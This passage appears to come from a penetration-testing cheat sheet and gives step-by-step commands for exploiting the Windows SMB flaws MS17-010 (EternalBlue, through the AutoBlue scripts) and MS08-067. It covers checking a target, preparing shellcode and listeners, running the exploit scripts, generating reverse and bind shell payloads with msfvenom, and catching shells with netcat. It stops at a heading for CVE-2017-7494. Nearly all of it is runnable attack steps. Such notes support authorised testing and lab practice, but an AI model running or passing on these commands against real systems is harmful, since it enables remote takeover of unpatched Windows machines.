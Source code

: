 ```
https://github.com/3ndG4me/AutoBlue-MS17-010
```

#### Check if vulnerable

```
python eternal_checker.py <IP>
```

#### Prepare shellcodes and listeners

```
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
```

#### Exploit

```
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin

May need to run it multiple times
```

#### If this doesn't work, try this one

```
python zzz_exploit.py <IP>
```

### MS08-067

```
# Download exploit code
git clone https://github.com/andyacer/ms08_067.git

# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
msfvenom -p windows/shell_bind_tcp RHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Modify
Modify ms08_067_2018.py and replace the shellcode variable by the one generated with msfvenom.

# Listener
nc -lvp <PORT>

# Exploit
python ms08_067_2018.py <IP> <NUMBER> 445
```

### CVE-2017-7494
